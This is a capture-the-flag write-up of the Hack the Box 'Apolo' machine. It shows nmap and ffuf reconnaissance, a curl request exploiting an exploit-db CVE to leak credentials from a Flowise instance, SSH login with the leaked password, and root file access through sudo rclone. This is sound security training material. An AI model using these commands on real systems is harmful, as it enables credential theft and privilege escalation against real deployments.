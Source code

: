 # Apolo

Apolo is the first of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

A full pwn challenge is composed of two flags that we have to find in order to complete it, the first one being the user flag and the second one being the root flag. We are given the ip address of a machine / box and we have to first get a RCE on the machine in order to have the user flag, and then privesc in order to get the root flag. 
## Reconnaissance 

```
Nmap scan report for apolo.htb (10.129.242.73)

Host is up (0.015s latency).

rDNS record for 10.129.242.73: apolo.htb

Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)+

| ssh-hostkey: 

|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)

|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)

|_  256 189d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)

|_http-title: Flowise - Low-code LLM apps builder

|_http-server-header: nginx/1.18.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_ker

```

We also check for vhost using ffuf : 

`ffuf -c -w /user/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "[http://$target/](about:blank)" -H "Host: FUZZ.$TARGET" -fc 301`

And we get a hit on a subdomain : `ai.apolo.htb`

Let’s add these two entries in our `/etc/hosts` and enumerate the two hosts : 
```
10.129.242.73 apolo.htb
10.129.242.73 ai.apolo.htb
```
  
The first webpage `apolo.htb` is just a full static website with nothing interesting, our directory fuzzing wasn’t very concluding so we decided to check the other vhost. 

Upon accessing `ai.apolo.htb` we are prompted with a login form for a flowiseai  instance. 

![Login form](/HTB-UNIVERSITY-2024/FullPwn/images/login_form.png)

Checking the version number of the flowingAI instance revealed that it was vulnerable to this CVE : [https://www.exploit-db.com/exploits/52001](https://www.exploit-db.com/exploits/52001)

After using the POC on the website we can confirm that it's indeed vulnerable
 
```
curl http://ai.apolo.htb/Api/v1/credentials [{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}`
```
## User flag

So we can now `curl http://ai.apolo.htb/Api/v1/credentials6cfda83a-b055-4fd8-a040-57e5f1dae2eb`

And retrieve some credentials : 

```
Username: lewis

Password: C0mpl3xi3Ty!_W1n3

Cluster: cluster0.mongodb.net

Database: myDatabase
```

We could then login onto the flowiseAI instance we thought we had to RCE from there, but a teammate of us pointed out that these credentials could be used to authenticate on the server using SSH. 

![ssh_login](/HTB-UNIVERSITY-2024/FullPwn/images/ssh_login.png)

And voilà : we have our user.flag in the usual location (/home/lewis/user.txt)

 ![user_flag](/HTB-UNIVERSITY-2024/FullPwn/images/user_flag.png)
 
## Root flag

Now that we have a shell on the box, let’s check out what our user can execute on the machine : 

![sudo_L](/HTB-UNIVERSITY-2024/FullPwn/images/sudo_L.png)

We are allowed to execute /usr/bin/rclone with sudo permissions on the machine. 

When checking out the man and help page of the rclone command we have : 

`Rclone  is a command-line program to manage files on cloud storage.  It is a feature-rich alternative to cloud vendors web storage interfaces.`

![rclone](/HTB-UNIVERSITY-2024/FullPwn/images/rclone.png)

We can execute cat through rclone, and since we can execute rclone with root priviledges, we can simply : 

![rootflag](/HTB-UNIVERSITY-2024/FullPwn/images/rootflag.png)
